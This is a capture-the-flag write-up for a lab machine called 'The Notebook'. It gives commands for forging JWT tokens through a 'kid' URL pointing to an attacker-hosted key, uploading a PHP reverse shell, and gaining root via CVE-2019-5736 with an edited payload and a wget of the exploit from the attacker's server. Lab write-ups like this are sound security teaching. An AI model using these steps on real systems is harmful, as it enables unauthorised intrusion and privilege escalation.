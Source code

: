 ```yaml
---
title: The Notebook
date: 2021-07-31
# bookComments: false
# bookSearchExclude: false
---
```


<p align="center">
  <img src="notebook-banner.png" />
</p>

***

# External Recon

We start our external recon with an nmap scan. Only two ports are open with a third one filtered.

```
nmap -sC -sV -oN inital 10.10.10.230

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
```

The most interessting service so far is http on port 80. Let's take a peek there.

![website-inital.png](website-inital.png)

Looks like an app to take notes. We could try to bruteforce the login page. But I would rather explore the app first. Let's register an account. 

[[Top]](#top)

# Explore

Once the account has been created we can explore the various parts of the webapp and create notes. I even tried some simple injections with
single quotes etc. but the app seems not vulnerable to those attacks.

Let's check how the application handles authentication. F12 to open the developer tools of the browser and check the storage tab where our access tokens are stored.

![auth.png](auth.png)

First thing I notice is the "auth" token. It starts with `eyJ` and this is indicative for "JWT-Tokens". [This page](https://dinochiesa.github.io/jwt/) has a nice decoder.

![jwt-decoded.png](jwt-decoded.png)

On the top-right we can see the header. And it already leaked some interessting information. The parameter `kid` or `key-id` holds the information about the private-key used to sign this token.

On the bottom-right we see our login data. And as the `admin_cap` paramater states, we are not an admin. We would like to change that though.
We can edit the token and change the 0 to a 1. But that would invalidate the signature. At least if the application in the backend checkes the signature. After playing with the token a bit, it seemed like it does check the signature. So we have to find a way to sign the token with a valid key.

Maybe the application allows us to inject our own value in the `kid` parameter. This way we could host a webserver with our own keys, which we would use to sign our forged token.

[[Top]](#top)

# Exploit

Let's start with a proof of concept. We will change the `kid` parameter (you can use the website above) to our IP and start a webserver with `python3 -m http.server 7070` and see if we get a request from the server.
Then copy the changed token into your browser.

![poc.png](poc.png)

Fantastic. The webserver tried to verify the key by following the outbound url. Let's now change the `admin_cap` parameter to `1`. If you used the site above, it already created a key-pair for you.
Just take the public key and save it in your web-root so that the webrequest from the server can read it. At the end of this writeup, I'll show you an alternative way of forging that token.

Once you're done with the setup and hit refresh in your browser, you should get access to the admin-panel and you should be able to read all notes.

![admin-panel.png](admin-panel.png)

The admin panel itself gives you an option to upload a file. We could try to upload a php reverse shell on the box to get in.
The notes even tell you that there's a "problem" that php files are being executed. The fix is pending. So, this has to be the way in.

Let's grab a good [php-reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and open a netcat listener.
Don't stop your webserver just yet. It's still needed to stay authenticated.

![low-shell.png](low-shell.png)

We have a shell. Let's upgrade our shell to a propper tty with `python3 -c 'import pty;pty.spawn("/bin/bash")'` then `ctrl-z` to background the shell. Then type `stty raw -echo` and hit enter
followed by `fg` and enter twice. Now you should be back. Last step is `export TERM=xterm`.

[[Top]](#top)

# Internal Recon

Now that we are in, we need to find a way to escalate our privileges. A look into `/etc/passwd` reveals a user named "noah". We've seen this name in the notes on the website before.
He just managed to setup his backup. With `find / -type d -name "*backup*"` we can search for a folder named "backup" and will show a folder where we have access to: `/var/backups`.

In there is a tar.gz backup of noah home directory. We will copy it to `/tmp` and unpack with `tar -xvzf`. Inside we find a noahs ssh-key. A quick `chmod 600` on it is enough to make it work for us.

![ssh.png](ssh.png)

Here we also find the user.txt.

[[Top]](#top)

# Privilege Escalation

Now it's time dig deeper and find a way to get root. Let's start with the basics: `sudo -l`.

![sudo.png](sudo.png)

We can run a single command as sudo without password. In this case a `docker` command.
Run `docker --version` to check which docker version is installed: 

```
Docker version 18.06.0-ce, build 0ffa825
```

This is an old version. After a small google search we can assume this docker version is vulnerable against `CVE-2019-5736`.
I picked [this exploit](https://github.com/Frichetten/CVE-2019-5736-PoC), mainly because it's easy to edit and compile.

To set it up we clone the git repo to our box. Then we need to change the exploit to fit our needs.
The exploit, as is, will copy the /etc/shadow file and make it readable. But this is not what we want. We can copy the authorized_keys file from noah in the home directory of root. 

So changing the payload to this should do the trick.

`var payload = "#!/bin/bash \n cat /home/noah/.ssh/authorized_keys >> /root/.ssh/authorized_keys"`

We compile the exploit with `go build main.go` and rename the binary from `main` to `exploit`. 

Now, for this to work you need three terminals. In the first one you need to get into the docker container via `sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash`. 
Here you will grab your exploit via `wget` from your local python webserver and `chmod +x` and launch it via `./exploit`.

In the second terminal windows you will ssh into the box with noah again and then trigger the exploit via `sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh`.

In the third window you can now try to ssh into the box as root with the rsa key of noah. The following screenshot shows this setup after the exploit
successfully triggered.

![root.png](root.png)

And that's it. We've rooted a medium difficulty machine once again. 

# Bonus Content

As promissed here's an alternative way to mess with the token. First we need to create a key-pair with ssh-keygen.

```
ssh-keygen -t rsa -b 4096 -m PEM -f jwt.key
```

Then we get a copy of the [jwt-tool](https://github.com/ticarpi/jwt_tool).

Which in turn can be used to edit and sign the token.

```
python3 jwt_tool.py [eyJ0eXAiOiJKV1QiLCJhbG..snip..] -I -hc kid -hv "http://10.10.16.4:7070/jwt.pub" -pc admin_cap -pv 1 -S rs256 -pr jwt.key
```

You can do a lot of more things with jwt_tool. But that's another topic.

Have a nice one.

x41

[[Top]](#top)
